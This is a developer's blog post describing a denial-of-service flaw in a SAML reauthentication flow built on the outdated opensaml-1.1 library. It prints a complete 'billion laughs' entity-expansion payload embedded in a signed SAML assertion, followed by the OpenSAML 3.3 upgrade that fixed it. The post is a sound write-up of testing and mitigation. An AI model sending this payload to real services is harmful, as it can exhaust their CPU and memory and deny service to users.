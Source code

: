 ```yaml
---
title: "Laughing out loud - Malicious Reauthentication"
date: 2018-06-04T10:02:51+01:00
draft: true
---
```


![Laughing out loud](/images/laughing_out_loud_malicious_auth_title.png)

# Background

I had found a vulnerability that made it is possible to insert maliciously crafted XML into the SAML payload that a reauthentication application returned to perform a Denial of Service (DoS) attack. The vulnerability came about due to the use of a out-of-date but still widely used library.

The service could have been made to consume a lot of CPU and memory causing it respond very slowly if at all. Health checks and automatic service restarts would have healed the service but it still would have allowed an attacker to mount a sustained Denial of Service attack without needing a lot of requests.

This post describes the vulnerability found in the opensaml-1.1 which was used to reauthenticate request. In this instance the reauthentication between apps worked by sending a payload to the reauthentication app, which then revalidated username/password and then returned the payload as a SAML assertion. This would be sent to the browser and POSTed back to the originating app.

The underlying SAML assertion would look something like that:

```xml
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion"
           xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_799fe6f5d865e965f751fb7b5f490530"
           IssueInstant="2018-03-29T13:13:46.244Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1">
    <Conditions NotBefore="2018-03-29T13:13:46.244Z" NotOnOrAfter="2018-03-29T13:24:46.244Z"></Conditions>
    <AuthenticationStatement AuthenticationInstant="2018-03-29T13:13:46.244Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified">
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
    </AuthenticationStatement>
    <AttributeStatement>
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
        <Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com">
            <AttributeValue>lHJfAvtsbKuRoknWbaiqTXiP0HUPIk6Iu/JwM5pgsEo=</AttributeValue>
        </Attribute>
        <Attribute AttributeName="payload" AttributeNamespace="http://redacted.com">
            <AttributeValue>iXNKzPtGTrm...sgl7SDiyanNbt6LwIpePh</AttributeValue>
        </Attribute>
    </AttributeStatement>
    <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
        <ds:SignedInfo>
            <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"></ds:CanonicalizationMethod>
            <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
            <ds:Reference URI="#_799fe6f5d865e965f751fb7b5f490530">
                <ds:Transforms>
                    <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                    <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">
                        <ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces>
                    </ds:Transform>
                </ds:Transforms>
                <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
                <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
            </ds:Reference>
        </ds:SignedInfo>
        <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
    </ds:Signature>
</Assertion>
```

so far so good - the XML is protected against tampering by a signature and the payload is encrypted...

# Identifying a Problem

I ran the OWASP dependency checker against the dependencies

```shell script
$ mvn org.owasp:dependency-check-maven:3.1.1:check
```

and found the following vulnerability

```shell script
Published Vulnerabilities
CVE-2013-6440  suppress
Severity: Medium
CVSS Score: 5.0 (AV:N/AC:L/Au:N/C:P/I:N/A:N)
CWE: CWE-200 Information Exposure
The (1) BasicParserPool, (2) StaticBasicParserPool, (3) XML Decrypter, and (4) SAML Decrypter in Shibboleth OpenSAML-Java before 2.6.1 set the expandEntityReferences property to true, which allows remote attackers to conduct XML external entity (XXE) attacks via a crafted XML DOCTYPE declaration.
```

This led me to perform experiments trying to exploit XXE - considering the XML is passed through the browser (so an attacker can modify the XML)

# The Attack

I used [Charles proxy](https://www.charlesproxy.com) to set a breakpoint on the URL POSTing (I was testing this locally) and I modified the payload before it was POSTed back to the app that initiated the reauthentication

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_ff91848d70cc3eb916a2d0549bb2e11a" IssueInstant="2018-03-29T14:32:38.564Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1"><Conditions NotBefore="2018-03-29T14:32:38.564Z" NotOnOrAfter="2018-03-29T14:43:38.564Z"></Conditions><AuthenticationStatement AuthenticationInstant="2018-03-29T14:32:38.564Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified"><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject></AuthenticationStatement><AttributeStatement><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject><Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com"><AttributeValue>NeGxMf9WPEcFqN7J7mfmW0G0pBOUO5nvhXj71WqxeuE=</AttributeValue></Attribute><Attribute AttributeName="payload" AttributeNamespace="http://redacted.com"><AttributeValue>iXNKzPtGTrmBZ/...A4tKERF1nFJRJE5DSqnJZc4wd1QU3C5S</AttributeValue></Attribute></AttributeStatement><ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:SignedInfo>
        <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">&lol9;</ds:CanonicalizationMethod>
        <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
        <ds:Reference URI="#_ff91848d70cc3eb916a2d0549bb2e11a">
            <ds:Transforms>
                <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"><ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces></ds:Transform>
            </ds:Transforms>
            <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
            <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
        </ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
</ds:Signature></Assertion>
```

The embedded doctype and the LOL entities that result in the XML processor processing a LOT of "lol" ENTITIES - hence the name billion laugh attack.

Here is what it did to my local JVM:

![](/images/laughing_out_loud_malicious_auth_stats.png)

 and that is just a single request.

# Mitigation

I rewrote the code to use OpenSAML 3.3 which is not vulnerable. Unfortunately, as the API for OpenSAML changed significantly that wasn't just a matter of changing dependencies but rewriting the SAML generation code from scratch...

# Moral of the Story

*   Do not use outdated libs
*   Do run the OWASP checker
*   XML is evil
